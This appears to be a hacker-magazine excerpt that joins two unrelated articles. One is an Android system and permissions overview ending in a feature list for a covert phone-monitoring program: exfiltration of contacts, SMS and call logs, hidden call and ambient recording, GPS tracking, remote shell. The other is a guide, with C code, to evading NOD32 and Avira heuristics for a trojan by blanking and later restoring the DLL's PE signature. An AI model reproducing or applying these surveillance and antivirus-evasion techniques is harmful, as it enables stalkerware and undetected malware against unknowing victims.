修改源代码关键是如何定位到核心的处理函数，然后分析程序的执行流程，找出关键代码，进行修改。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

- 前置知识：无
- 关键词：Android，远程，监控

# Android 远程监控技术之——Android 系统概述

## Android 发展前景

目前众多的智能手机操作系统主要有 Windows Mobile、Linux 和 Symbian，而基于这些操作系统，各手机终端厂商也开发了众多的智能手机产品。苹果公司发布 iPhone 是智能手机的里程碑，彻底颠覆了人们以往对智能手机的认识，成为当前手机终端厂商极力模仿和竞争的对象。2009 年谷歌公司推出基于 Linux 操作系统的开源 Android 操作平台，也正是基于 Android 平台的开源特性，Android 平台在智能手机操作系统中强势崛起，同时也引发了智能手机操作系统的重新洗牌。目前业界依旧首推谷歌 Android 为最具潜力的系统，各终端厂商也越来越多地推出基于 Android 平台的智能手机。

2010 年全球科技产业内最精彩的故事就是谷歌 Android 操作系统在智能手机市场的份额实现了爆炸性增长。Android 在 2009 年年底才刚刚上市，但截至今年第三季度其市场占有率已经达到惊人的 19%。在当今的移动市场上，谷歌的 Android 操作系统正轻松地超越了竞争对手。事实上，谷歌的操作系统已经运行于多家生产商的设备之中，目前基于该系统手机的销量正在超过苹果 iPhone、RIM 的黑莓手机以及其他一直未能像 Android 那样有效吸引用户眼球的产品。

尽管微软 Windows Phone 7 系统已经亮相市场，但值得一提的是，谷歌的 Android 操作系统仍将能够以更快的速度向前发展。微软的操作系统缺乏诸多消费者非常想要的重要功能，毫无疑问，其发展前景也将因本身的诸多功能缺陷而远远落后于 Android。

谷歌的 Android 操作系统有其成功的固有因素，此移动操作系统正势如破竹，从目前的发展势头来看，似乎看不出会有什么障碍能够影响 Android 的发展动力，以下 10 大理由更能证明这一点。

- **1. Android 2.2 保持增长动力**  
  谷歌最初推出 Android 操作系统时，简直就是一团糟。最初的 Android 操作系统并未能够像消费者预期的那样奏效，而且当时的苹果 iOS 操作系统看上去似乎更胜一筹。但是，谷歌不断推出更新措施，以此不断改良此操作系统。例如，Android 2.2 就成为谷歌发布史上最好的一款软件，这也是该软件为何能够进入更多设备的原因所在。如今来看，Android 的这种进展势头仍在继续，面对如此诱惑的系统，消费者当然很难选择其他类似的产品了。

- **2. Android 3.0 即将面世**  
  正如 Android 2.2 的优势那样，谷歌还计划在未来几个月内提供更新的 Android 3.0 操作系统。业界多数人士预测 Android 3.0 系统将于 2011 年初推出。一旦此新软件推向市场，其肯定会添加数款更新功能，因而其也会更加吸引消费者。鉴于 Android 2.1 和 Android 2.2 一直保持成功势头，因此，不能设想 Android 3.0 难以取得成功。

- **3. 平板电脑开始采用 Android 系统**  
  苹果的 iPad 如今似乎已经确立了平板电脑市场的销售标准，尽管如此，一些想运行 Android 操作系统的生产商也已经开始排队等待此系统。目前，思科、LG、三星以及其他生产商都计划在未来数个月内推出基于 Android 操作系统的平板电脑。这对谷歌而言当然是好消息，这种局面当然一定能够帮助谷歌的移动操作系统取得行业领先地位。这对谷歌的合作伙伴而言也将是一个大好消息，这种趋势对谷歌本身也必将有百利而无一害。

- **4. 更加关注企业用户**  
  谷歌最终开始意识到，要想在移动市场取得成功，同样地关注企业用户就显得极为重要了。谷歌在此觉醒之后，便开始进军企业用户领域。目前，Android 2.2 已经被大量的用户广泛接受，这些用户认为 Android 2.2 是谷歌史上推出的最适合企业用户的移动操作系统。谷歌将会继续关注企业用户，这种举措当然会帮助其软件增加更大的吸引力。

- **5. Windows Phone 7 似乎是一大败笔**  
  毫无疑问，Windows Phone 7 当然是谷歌在移动操作系统领域内的最大竞争对手。微软推出的此款新操作系统力图吸引更多生产商，并击败谷歌，从而帮助微软及相关生产商向全球用户销售更多的设备，但这可能只是微软的一厢情愿罢了。事实上，Windows Phone 7 缺乏完整的多任务、足够的应用以及消费者需要的其他诸多功能，其在美国市场推出之后，充其量也只不过是新一款操作系统而已。

- **6. 苹果不再强大**  
  苹果目前可能仍是移动市场的一个重要角色，其也是一个应当被尊重的公司。但是，谷歌的发展势头已经表明，其将能够战胜苹果。当然，谷歌要想战胜苹果，必须要能够推出几款足以抗衡苹果的产品，而谷歌做到了，其目前的势头也向业界证明，谷歌击败苹果似乎不太费力。

- **7. Verizon 的支持**  
  操作系统能否成功将取决于其是否能够有大运营商在背后给予支持。令谷歌及 Android 手机生产商感到幸运的是，它们的愿望都已成为现实。Verizon 在支持 Android 方面一直取得了极大的成功，该公司也已经多次表示，将继续支持 Android 操作系统向前发展。鉴于 Verizon 是美国顶尖级的运营商，因此，这对谷歌的 Android 操作系统而言，当然是一件大好之事。

- **8. 谷歌关注 Android 技术**  
  谷歌最初开始销售 Android 操作系统时，其意图和计划并不为人所知。谷歌过去一直大力投资搜索和广告市场，其对移动技术专注程度到底有多深，这似乎仍不为人所知。但目前似乎一切真相大白，Android 操作系统已经成为谷歌战略的重要因素，这对谷歌的合作伙伴而言也将是一个大好消息。

- **9. 更多生产商青睐 Android**  
  摩托罗拉和宏达电在运营 Android 方面的成功已经诱发了更多公司关注谷歌的移动操作系统，因此，谷歌也将有更多的机会来让新生产商选择其 Android 操作系统。例如，戴尔已经推出了 Streak 平板电脑和 Aero 智能手机，这些产品都运行 Android 操作系统。当然，戴尔只是诸多类似的公司之一。对消费者而言，可供选择的产品越多，那就越好。

- **10. 谷歌应用商店 Android Market 发展壮大**  
  苹果应用商店（App Store）催生了移动市场的一个全新行业；但是，尽管谷歌的应用商店 Android Market 拥有的应用数量要大大低于苹果应用商店，但事实上，Android Market 一直在发展壮大。不可否认的是，苹果应用商店中的诸多尖端应用方案，在谷歌的 Android Market 应用商店中也有，一些收费，一些可供免费下载。这些局面进一步增加了谷歌 Android 操作系统的价值，当然也会让 Android 系统未来更具吸引力。

Android 的高速发展为我们带来了很多就业机会。据 oDesk 最新的来自全球招聘市场的报告显示，Android 平台开发者的需求量从 2009 年 10 月到 2010 年 10 月整整上升了 710%。这个需求量的增长是不足为奇的，由于手机（移动）操作系统在过去 12 个多月的快速攀升，现在形成了新的形式。在 oDesk 最新的在线就业报告中，总计审查了超过 57000 份工作的汇总数据，需要熟练掌握“Android”的（与去年同期相比）提升了 70 位，自上次报告去年 8 月时它还是很普通的第 110 位。

因此掌握 Android 开发技术不仅仅是谋得一份好工作的契机，更是弄潮儿在互联网行业的一个新的创业机会。玩腻了 PC 上的远程控制技术，或许新的智能手机远程控制技术会让你眼前一亮，激发起学习 Android 编程的兴趣。

## Android 系统架构

Android 是一个为移动设备设计的软件平台，包括操作系统、中间件和一些关键应用。目前发布的 Android SDK 提供了必需的工具和进行应用开发所必需的 API，在 Android 上的开发使用 Java 语言、中间件（Middleware）和应用程序（Application）。根据 Android 的软件框图，其软件层次结构自下而上分为以下几个层次（如图 1 所示）。

图 1 Android 软件层次结构

- 1. 操作系统层（OS）
- 2. 各种库（Libraries）和 Android 运行环境（Runtime）
- 3. 应用程序框架（Application Framework）
- 4. 应用程序（Application）

对于操作系统层，Android 使用 Linux 2.6 作为操作系统，Linux 2.6 是一种标准的技术，Linux 也是一个开放的操作系统。Android 对操作系统的使用包括核心和驱动程序两部分，Android 的 Linux 核心为标准的 Linux 2.6 内核，Android 更多的是需要一些与移动设备相关的驱动程序。这主要包括基于 Linux 的帧缓冲显卡驱动；作为输入设备的键盘驱动；基于 MTD 的 Flash 驱动；照相机驱动；音频驱动；基于 IEEE 802.15.1 标准的蓝牙驱动；基于 IEEE 802.11 标准的 WiFi 驱动；提供进程间通信的 Binder IPC 驱动等。

Android 使用的库主要包括系统 C 库（一个从 BSD 继承来的标准 C 系统函数库，专门为基于嵌入式 Linux 设备定制）；媒体库（基于 PacketVideo 的 OpenCORE，该库支持录放，并且可以录制许多流行的音频视频格式）；还有静态图像文件包括 MPEG4、H.264、MP3、AAC、AMR、JPG、PNG 等；SGL（一个内置的 2D 图形引擎）；OpenGL（基于 OpenGL ES 1.0 APIs 实现，该库可以使用硬件 3D 加速或者使用高度优化的 3D 软加速）；FreeType（位图和向量字体显示）；SQLite（一个对所有应用程序可用、功能强大的轻量级关系数据库引擎）；LibWebCore（一个最新的 Web 浏览器引擎，用来支持 Android 浏览器和一个可嵌入的 Web 视图）。

Android 运行环境主要是指虚拟机技术 Dalvik。Dalvik 虚拟机和一般 Java 虚拟机（Java VM）不同，它执行的不是 Java 标准的字节码（bytecode），而是 Dalvik 可执行格式（.dex）中的执行文件。在执行的过程中，每一个应用程序即一个进程（Linux 的一个 Process）。二者最大的区别在于 Java VM 是基于栈的虚拟机（Stack-based），而 Dalvik 是基于寄存器的虚拟机（Register-based）。显然，后者最大的好处在于可以根据硬件实现更大的优化，这更适合移动设备的特点。

Android 的应用程序框架主要为应用程序提供需要的 API 接口，其中包含 UI 程序中所需要的各种控件，例如：Views（视图组件）、lists（列表）、grids（栅格）、text boxes（文本框）、buttons（按钮）等。Android 系统中核心应用程序的 API 框架设计简化了组件的重用，任何一个应用程序都可以发布它的功能块并且提供给其他应用程序调用；同时这种应用程序重用机制也便于用户替换程序组件。除了 UI 程序中所需要的各种控件，Android 的应用程序框架还包括一系列的服务和系统，其中包括：

- **内容提供器（Content Providers）**：使得应用程序既可以访问另一个应用程序的数据，也可以共享它们自己的数据。
- **资源管理器（Resource Manager）**：提供本地字符串、图形，以及布局文件等非代码资源的访问。
- **通知管理器（Notification Manager）**：提供一个状态栏用于显示各应用程序的提示信息。
- **活动管理器（Activity Manager）**：用来管理应用程序的生命周期并提供常用的导航回退功能。

通常情况下，Android 应用程序是由四种组件构造而成的：Activity、Service、Content Provider、Broadcast Receiver；所有的 Android 应用程序都由这四个组件组合而成，但并非必须构建这 4 个组件。所有的应用都在文件 AndroidManifest.xml 中管理这些组件：

- **Activity**：是最基本的 Android 应用程序组件。在 Android 应用程序中，一个活动通常就是一个单独的屏幕；每一个活动都被实现为一个独立的类，并且是从 Android 的活动基类中继承而来的，活动类将会显示由视图控件组成的用户界面，并对事件做出响应。Android 对活动的管理是通过堆栈进行的。
- **Service**：一个服务是具有一段较长生命周期且没有用户界面的程序。多数是一些后台的监控服务，针对 WiFi 芯片的功能和状态管理就是基于 Service 设计的。
- **Content Provider**：内容提供器类通过实现一组标准的方法，可以让其他应用保存或读取此内容提供器处理的各种数据类型。
- **Broadcast Receiver**：用来接收广播信息，包括系统广播和其他应用发送的广播信息。Broadcast Receivers 不需要与用户交互，不过可以通过启动 Activity 或者通过使用 NotificationManager 通知用户。

创建的文件对其他应用来说具有读/写权限，这可以在不同进程间进行数据共享。上面已经提到，在基础的安全沙箱中，应用程序享有基础的权限。为了突破沙箱限制，必须通过在 AndroidManifest.xml 文件中创建更多的 `<uses-permission>` 标签来实现。

## Android 安全架构

Android 是个多进程系统，每个应用程序运行在独立的进程空间，Linux 操作系统在进程级别对它们进行安全控制。每个应用被赋予了不同的 UID 和 GID，除此之外，Android 系统通过权限机制控制应用进行受限或者危险的操作。

在 Android 安全体系中，应用程序默认没有权限对其他进程的私有数据、外部设备进行读/写操作。每一应用进程运行在沙箱中，只有申请相关权限才能脱离沙箱束缚。应用程序使用 AndroidManifest.xml 文件静态申请运行所需要的权限，并且应用程序在安装的时候会提示给用户这些权限信息，由用户决定是否安装该应用；应用程序在运行期间不能动态改变它们。

应用程序签名能够建立应用程序与开发者的信任关系，相同签名的不同应用程序可以共享 UID，运行在相同的进程空间，也可以相互访问各自的私有数据。每个应用程序安装到 Android 系统上都被赋予一个唯一的 UID 用来进行安全控制。从进程级别进行安全控制会导致两个不同的应用无法运行在相同的进程空间，可以通过在 manifest 文件中定义 sharedUserId 属性的方法使不同的应用运行在相同的进程空间，前提条件是这两个应用必须包含相同的签名信息。应用程序建立的文件通过本程序的 UID 控制。通常其他应用程序没有权限访问该 UID 创建的文件。在创建文件的时候使用 `getSharedPreferences`、`openFileOutput` 或者 `openOrCreateDatabase`，我们可以使用 `MODE_WORLD_READABLE` 或者 `MODE_WORLD_WRITEABLE` 标志位使得创建的文件对其他应用来说具有读/写权限。

应用程序在安装的时候，安装程序根据声明权限来赋予应用程序相应的权限并提示给用户。应用程序在运行期间，系统会对基础沙箱服务之外的权限进行检查，如果安装时没有声明该权限会返回 `SecurityException` 异常。系统提供的权限列表可以在 `Manifest.permission` 中获取，一般形式如下：

```xml
<manifest
    xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.android.app.myapp">
    <uses-permission
        android:name="android.permission.RECEIVE_SMS" />
</manifest>
```

- 1. 防止应用程序执行越权系统调用。
- 2. 防止越权应用启动受保护的 Activity。
- 3. 对 Broadcast 发送者和接收者进行权限控制。
- 4. 防止越权应用启动或者绑定受保护的 Service。
- 5. 防止越权应用访问操作受保护的 ContentProvider。

为了在自己的应用程序中实施自己的权限控制，可以在 AndroidManifest.xml 文件中创建更多的 `<permission>` 标签来实现。形式如下：

```xml
<manifest
    xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.me.app.myapp">
    <permission
        android:name="com.me.app.myapp.permission.DEADLY_ACTIVITY"
        android:label="@string/permlab_deadlyActivity"
        android:description="@string/permdesc_deadlyActivity"
        android:permissionGroup="android.permission-group.COST_MONEY"
        android:protectionLevel="dangerous" />
</manifest>
```

`<protectionLevel>` 标签非常重要，它最重要的特性在于定义其他程序是否有权限申请该权限，也就是说在 Android 系统中并不是想申请什么权限就获取什么权限的。权限定义者可以通过 `<protectionLevel>` 标签限定申请者。`protectionLevel` 分为 0~3 四个等级。

如果没有显式定义它，默认值为 0，它的取值如表 1 所示。

## 表 1 protectionLevel 描述

| 字符串 | 值 | 描述 |
|---|---:|---|
| normal | 0 | 默认等级，低风险的权限 |
| dangerous | 1 | 高风险权限，需要用户确认为能获取 |
| signature | 2 | 包含相同签名的应用才能获取 |
| signatureOrSystem | 3 | Android 系统镜像文件中的应用才能获取，或者与 system 具有相同签名的应用才能获取，通常情况下不要使用该数值 |

在源码的 frameworks/base/core/res/AndroidManifest.xml 中可以查看到系统提供的权限列表。我们最关心的是 Android:protectionLevel 标签。因为作为第三方应用程序开发，能够申请的只有 Android:protectionLevel 取值为 0、1 的权限，其他的权限即使在 AndroidManifest.xml 文件中申请了也不会被系统赋予。

```xml
<permission
    android:name="android.permission.INSTALL_PACKAGES"
    android:label="@string/permlab_installPackages"
    android:description="@string/permdesc_installPackages"
    android:protectionLevel="signatureOrSystem"/>
```

这决定了第三方应用程序即使在 AndroidManifest.xml 文件中申请了该权限也无法被赋予，除非我们使用系统签名或者集成在 Android 系统镜像文件中。

在 AndroidManifest.xml 中可以对组件实施权限控制，需要通过 android:permission 标签实现。在 Activity、Service、BroadcastReceiver、ContentProvider 组件中分别通过对应接口触发权限检查。URI permissions 提供了两个分离属性：android:readPermission 和 android:writePermission，分别限制读取和写入 URI。

ContentResolver.query() 需要 android:readPermission 权限，ContentResolver.insert()、ContentResolver.update()、ContentResolver.delete() 需要 android:writePermission 权限。

## Android 权限列表

上面已经讲到，在 Android 系统中应用程序如果要获得某一组件或者某一设备的访问权限，就需要在 AndroidManifest.xml 文件中申请相关权限。本节对 Android 内置权限进行详细介绍，如果我们在程序开发中需要使用相关权限，就一定要在 AndroidManifest.xml 文件中声明。

- Android.permission.ACCESS_CHECKIN_PROPERTIES：允许读/写 checkin 数据库中 properties 表。
- Android.permission.ACCESS_COARSE_LOCATION：允许访问粗略位置信息（CellID、WiFi）。
- Android.permission.ACCESS_FINE_LOCATION：允许访问精确位置（如 GPS）。
- Android.permission.ACCESS_LOCATION_EXTRA_COMMANDS：允许访问额外的位置提供命令。
- Android.permission.ACCESS_MOCK_LOCATION：允许创建模拟位置用于测试。
- Android.permission.ACCESS_NETWORK_STATE：允许访问网络状态信息。
- Android.permission.ACCESS_SURFACE_FLINGER：允许使用 SurfaceFlinger 底层特性。
- Android.permission.ACCESS_WIFI_STATE：允许访问 Wi-Fi 网络状态信息。
- Android.permission.BATTERY_STATS：允许程序更新手机电池统计信息 (Allows an application to update the collected battery statistics)。
- Android.permission.BLUETOOTH：允许程序连接到已配对的蓝牙设备 (Allows applications to connect to paired bluetooth devices)。
- Android.permission.BLUETOOTH_ADMIN：允许程序发现和配对蓝牙设备 (Allows applications to discover and pair bluetooth devices)。
- Android.permission.BRICK：请求能够禁用设备（非常危险）(Required to be able to disable the device (very dangerous))。
- Android.permission.BROADCAST_PACKAGE_REMOVED：允许程序在一个应用程序包已经移除后广播一个提示消息 (Allows an application to broadcast a notification that an application package has been removed)。
- Android.permission.BROADCAST_STICKY：允许一个程序广播常用 intents (Allows an application to broadcast sticky intents)。
- Android.permission.CALL_PHONE：允许一个程序初始化一个电话拨号，无需通过拨号用户界面需要用户确认 (Allows an application to initiate a phone call without going through the Dialer user interface for the user to confirm the call being placed)。
- Android.permission.CALL_PRIVILEGED：允许一个程序拨打任何号码，包含紧急号码，无需通过拨号用户界面需要用户确认 (Allows an application to call any phone number, including emergency numbers, without going through the Dialer user interface for the user to confirm the call being placed)。
- Android.permission.CAMERA：请求访问使用照相设备 (Required to be able to access the camera device)。
- Android.permission.CHANGE_COMPONENT_ENABLED_STATE：允许一个程序改变自身组件或其他组件的启用或禁用 (Allows an application to change whether an application component (other than its own) is enabled or not)。
- Android.permission.CHANGE_CONFIGURATION：允许一个程序修改当前设置 (Allows an application to modify the current configuration, such as locale)。
- Android.permission.CHANGE_NETWORK_STATE：允许程序改变网络连接状态 (Allows applications to change network connectivity state)。
- Android.permission.CHANGE_WIFI_STATE：允许程序改变 Wi-Fi 连接状态 (Allows applications to change Wi-Fi connectivity state)。
- Android.permission.CLEAR_APP_CACHE：允许一个程序清除安装程序在设备中的缓存 (Allows an application to clear the caches of all installed applications on the device)。
- Android.permission.CLEAR_APP_USER_DATA：允许一个程序清除用户数据 (Allows an application to clear user data)。
- Android.permission.CONTROL_LOCATION_UPDATES：允许启用或者禁用位置更新提示 (Allows enabling/disabling location update notifications from the radio)。
- Android.permission.DELETE_CACHE_FILES：允许程序删除缓存文件 (Allows an application to delete cache files)。
- Android.permission.DELETE_PACKAGES：允许一个程序删除包 (Allows an application to delete packages)。
- Android.permission.DEVICE_POWER：允许访问底层电源管理 (Allows low-level access to power management)。
- Android.permission.DIAGNOSTIC：允许程序 RW 诊断资源 (Allows applications to RW to diagnostic resources)。
- Android.permission.DISABLE_KEYGUARD：允许程序禁用键盘锁 (Allows applications to disable the keyguard)。
- Android.permission.DUMP：允许程序从系统服务返回状态信息 (Allows an application to retrieve state dump information from system services)。
- Android.permission.EXPAND_STATUS_BAR：允许一个程序扩展或者裁剪状态栏 (Allows an application to expand or collapse the status bar)。
- Android.permission.FACTORY_TEST：作为一个工厂测试程序运行在 root 用户下 (Run as a manufacturer test application, running as the root user)。
- Android.permission.FLASHLIGHT：访问闪光灯 (Allows access to the flashlight)。
- Android.permission.FORCE_BACK：允许程序在不管是否顶层 activity 条件下强行一个后退操作 (Allows an application to force a BACK operation on whatever is the top activity)。
- Android.permission.GET_ACCOUNTS：访问 Accounts Service 中账户列表 (Allows access to the list of accounts in the Accounts Service)。
- Android.permission.GET_PACKAGE_SIZE：允许一个程序获取任何 package 占用空间容量 (Allows an application to find out the space used by any package)。
- Android.permission.GET_TASKS：允许一个程序获取有关当前或最近运行任务的信息，包括任务状态、是否活动等信息 (Allows an application to get information about the currently or recently running tasks: a thumbnail representation of the tasks, what activities are running in it, etc)。
- Android.permission.HARDWARE_TEST：允许访问硬件设备 (Allows access to hardware peripherals)。
- Android.permission.INJECT_EVENTS：允许一个程序注入用户事件，如按键、触摸、轨迹球等 (Allows an application to inject user events (keys, touch, trackball) into the event stream and deliver them to ANY window)。
- Android.permission.INSTALL_PACKAGES：允许一个程序安装 packages (Allows an application to install packages)。
- Android.permission.INTERNAL_SYSTEM_WINDOW：允许一个程序打开系统用户界面窗口 (Allows an application to open windows that are for use by parts of the system user interface)。
- Android.permission.INTERNET：允许程序通过套接字访问网络 (Allows applications to open network sockets)。
- Android.permission.MANAGE_APP_TOKENS：允许程序管理应用程序 (Allows an application to manage (create, destroy, Z-order) application tokens in the window manager)。
- Android.permission.MASTER_CLEAR：重启进入恢复系统擦除数据分区 (Reboot into the recovery system to wipe the /data partition)。
- Android.permission.MODIFY_AUDIO_SETTINGS：允许程序修改全局音频设置 (Allows an application to modify global audio settings)。
- Android.permission.MODIFY_PHONE_STATE：允许修改话机状态 (Allows modification of the telephony state — power on, mmi, etc)。
- Android.permission.MOUNT_UNMOUNT_FILESYSTEMS：允许挂载和卸载可移动文件系统 (Allows mounting and unmounting file systems for removable storage)。
- Android.permission.PERSISTENT_ACTIVITY：允许一个程序设置它的 activities 持久化 (Allow an application to make its activities persistent)。
- Android.permission.PROCESS_OUTGOING_CALLS：允许程序监视、修改有关呼出电话 (Allows an application to monitor, modify, or abort outgoing calls)。
- Android.permission.READ_CALENDAR：允许程序读取用户日历数据 (Allows an application to read the user's calendar data)。
- Android.permission.READ_CONTACTS：允许程序读取用户联系人数据 (Allows an application to read the user's contacts data)。
- Android.permission.READ_FRAME_BUFFER：允许程序访问帧缓冲数据 (Allows an application to take screen shots and more generally get access to the frame buffer data)。
- Android.permission.READ_INPUT_STATE：允许程序返回当前按键状态 (Allows an application to retrieve the current state of keys and switches)。
- Android.permission.READ_LOGS：允许程序读取底层系统日志文件 (Allows an application to read the low-level system log files)。
- Android.permission.READ_OWNER_DATA：允许程序读取所有者数据 (Allows an application to read the owner’s data)。
- Android.permission.READ_SMS：允许程序读取短信信息 (Allows an application to read SMS messages)。
- Android.permission.READ_SYNC_SETTINGS：允许程序读取同步设置 (Allows applications to read the sync settings)。
- Android.permission.READ_SYNC_STATS：允许程序读取同步状态 (Allows applications to read the sync stats)。
- Android.permission.REBOOT：请求能够重新启动设备 (Required to be able to reboot the device)。
- Android.permission.RECEIVE_BOOT_COMPLETED：允许一个程序接收到 ACTION_BOOT_COMPLETED 广播 (Allows an application to receive the ACTION_BOOT_COMPLETED that is broadcast after the system finishes booting)。
- Android.permission.RECEIVE_MMS：允许一个程序接收彩信 (Allows an application to monitor incoming MMS messages, to record or perform processing on them)。
- Android.permission.RECEIVE_SMS：允许程序接收短信 (Allows an application to monitor incoming SMS messages, to record or perform processing on them)。
- Android.permission.RECEIVE_WAP_PUSH：允许程序接收 WAP PUSH 信息 (Allows an application to monitor incoming WAP push messages)。
- Android.permission.RECORD_AUDIO：允许程序录制音频 (Allows an application to record audio)。
- Android.permission.REORDER_TASKS：允许程序改变 Z 轴任务顺序 (Allows an application to change the Z-order of tasks)。
- Android.permission.RESTART_PACKAGES：允许程序重新启动其他程序 (Allows an application to restart other applications)。
- Android.permission.SEND_SMS：允许程序发送 SMS 短信 (Allows an application to send SMS messages)。
- Android.permission.SET_ACTIVITY_WATCHER：允许程序在系统级别监控 activities 启动 (Allows an application to watch and control how activities are started globally in the system)。
- Android.permission.SET_ALWAYS_FINISH：允许程序控制处于后台时是否立即结束 (Allows an application to control whether activities are immediately finished when put in the background)。
- Android.permission.SET_ANIMATION_SCALE：修改全局缩放比例 (Modify the global animation scaling factor)。
- Android.permission.SET_DEBUG_APP：配置一个程序用于调试 (Configure an application for debugging)。
- Android.permission.SET_ORIENTATION：允许底层访问设置屏幕方向和实际旋转 (Allows low-level access to setting the orientation of the screen)。
- Android.permission.SET_PROCESS_LIMIT：允许设置最大的运行进程数量 (Allows an application to set the maximum number of application processes that can be running)。
- Android.permission.SET_TIME_ZONE：允许程序设置时间区域 (Allows applications to set the system time zone)。
- Android.permission.SET_WALLPAPER：允许程序设置壁纸 (Allows applications to set the wallpaper)。
- Android.permission.SET_WALLPAPER_HINTS：允许程序设置壁纸 hints (Allows applications to set the wallpaper hints)。
- Android.permission.SIGNAL_PERSISTENT_PROCESSES：允许程序请求发送信号到所有持续进程中 (Allow an application to request that a signal be sent to all persistent processes)。
- Android.permission.STATUS_BAR：允许程序打开、关闭或禁用状态栏及图标 (Allows an application to open, close, or disable the status bar and its icons)。
- Android.permission.SUBSCRIBED_FEEDS_READ：允许一个程序读取 subscribed feeds ContentProvider (Allows an application to access the subscribed feeds ContentProvider)。

- Android.permission.SUBSCRIBED_FEEDS_WRITE：允许一个程序写入 subscribed feeds ContentProvider（Allows an application to allow access the subscribed feeds ContentProvider）。
- Android.permission.SYSTEM_ALERT_WINDOW：允许一个程序使用 TYPE_SYSTEM_ALERT 打开窗口，显示在其他所有程序的顶层（Allows an application to open windows using the type TYPE_SYSTEM_ALERT, shown on top of all other applications）。
- Android.permission.VIBRATE：允许访问振动设备（Allows access to the vibrator）。
- Android.permission.WAKE_LOCK：允许使用 PowerManager 的 Wakelocks 避免进程休眠（Allows using PowerManager Wakelocks to keep processor from sleeping or screen from dimming）。
- Android.permission.WRITE_APN_SETTINGS：允许程序写入 APN 设置（Allows applications to write the apn settings）。
- Android.permission.WRITE_CALENDAR：允许一个程序写入但不读取用户日历数据（Allows an application to write (but not read) the user's calendar data）。
- Android.permission.WRITE_CONTACTS：允许程序写入但不读取用户联系人数据（Allows an application to write (but not read) the user's contacts data）。
- Android.permission.WRITE_GSERVICES：允许程序修改 Google 服务地图（Allows an application to modify the Google service map）。
- Android.permission.WRITE_OWNER_DATA：允许一个程序写入但不读取所有者数据（Allows an application to write (but not read) the owner's data）。
- Android.permission.WRITE_SETTINGS：允许程序读取或写入系统设置（Allows an application to read or write the system settings）。
- Android.permission.WRITE_SMS：允许程序写短信（Allows an application to write SMS messages）。
- Android.permission.WRITE_SYNC_SETTINGS：允许程序写入同步设置（Allows applications to write the sync settings）。

看到上面的一大堆 permission，我们不要高兴得太早了，很多 permission 的 Android.protectionLevel 都是 2 或者 3 的，这就决定了即使我们申请了所有权限，大部分权限对于第三方应用程序来说是不能申请的，从而导致我们开发第三方应用程序运行在受限的进程空间。

## Android 控制软件介绍

通过对 Android 手机进行编程，我们几乎无所不能，可以将自己的 Android 手机改装成窃听器、防盗器、指南针、针孔摄像头等等。本软件可以对 Android 智能手机几乎所有的功能都实施监控，监控的硬件组件包括摄像头、麦克风、蓝牙设备、GPS 设备、存储卡设备。监控的隐私数据包括通话记录、短信记录、通讯录、通话录音等。本软件几乎可以完全控制一部 Android 智能手机。下面对这些监控功能进行详细描述。

- 1. 回传通讯录。通过下发指令可以回传所有通讯录数据。每条记录包括联系人姓名、联系人手机或电话号码。支持分批回传功能。
- 2. 回传通话记录。通过下发指令可以回传所有通信记录。每条记录包括主被叫号码、通话开始时间、通话时长。支持分批回传功能。
- 3. 回传短信记录。通过下发指令可以回传所有短信记录，每条记录包括主被叫号码、发送或者接收时间、短信内容。支持分批回传功能。
- 4. 通话自动录音。通过下发指令可以实施通话时自动录音功能，支持录音文件后台发送功能。
- 5. 电话回拨功能。通过下发指令可以实施电话回拨功能，回拨电话到指定电话号码，可以实现对手机周围环境的监控。
- 6. 录音功能。通过下发指令可以实施自动录音功能，将周围音频信息保存到文件并且后台发送功能。
- 7. 录像功能。通过下发指令可以实施自动录像功能，将周围视频信息保存到文件并且后台发送功能。
- 8. 蓝牙监控功能。通过下发指令可以控制蓝牙设备的开启和关闭，通过蓝牙功能可以回传大容量数据文件包括音频文件、视频文件等。
- 9. GPS 监控功能。通过下发指令可以实时获取位置信息，通过获取的经纬度信息可以精确定位到用户位置。
- 10. 进程监控功能。通过下发指令可以对手机进程信息进行监控，支持结束特定进程功能。
- 11. 文件监控功能。通过下发指令可以对外部存储卡进行管理。支持文件浏览、上传、下载功能。
- 12. 远程终端功能。通过下发 shell 指令可以在 Android 系统上远程运行 Linux 命令。
- 13. 屏幕监控功能。通过下发指令可以对 Android 手机界面远程进行监控。

通过阅读本书，你不仅可以免费获取相关实例代码，而且还会对 Android 系统安全体系、Android 第三方应用程序开发有进一步的了解，激发你学习 Android 编程的兴趣。

前置知识：PE 结构  
关键词：PE，启发式，DLL


# 破坏 PE 与拆分功能突破启发式

文 ForXuan

今天讨论的是 NOD32 和小红伞的启发式，前几天帮一位朋友做免杀时遇到了这样一个问题，木马所有功能都写成了 DLL 文件，EXE 文件只负责把 DLL 释放出来并用系统自带的 rundll32.exe 加载即可。于是把 DLL 文件做了小红伞和 NOD32 的免杀，但当作资源加载进 EXE 文件后发现又被杀了。EXE 文件里是那些正常的查找资源、释放资源的 API 函数，都还没有写运行 rundll32.exe 的代码，而且 DLL 文件本身就是免杀的。两个文件合并后就马上被杀，于是感觉 DLL 里还有隐藏的特征码，而且很明显是启发式在查杀。我个人推测这些隐藏的特征码只有在 PE 文件被放到另一个 PE 文件的资源里，才会组合出新的特征码来，然后启发式就会开始查杀。但这些特征码是很难查找的，如果单纯定位合并后的 EXE 文件，会直接定位到资源区段里的 DLL 文件头部。于是想到了破坏 PE 的方法，启发式肯定会查看一个 PE 文件的资源里是否包含的是另一个 PE 文件，如果包含的不是一个 PE 文件，那么相对就是安全的。所以把 DLL 文件用 C32ASM 载入，移到“PE”两个字符的位置直接填充成 00，然后把修改好的 DLL 重新当作资源放到 EXE 中，在 EXE 的代码中加入以下恢复的代码：

```c
SetFilePointer(fp, 256, NULL, NULL); // ...
WriteFile(fp, "PE", lstrlen("PE"), &a, NULL);
```

这两句放在刚刚把 DLL 释放出来的语句之后执行，我的 DLL 文件中 PE 两个字符距离开始位置是 256，不同的文件大家自己调整。

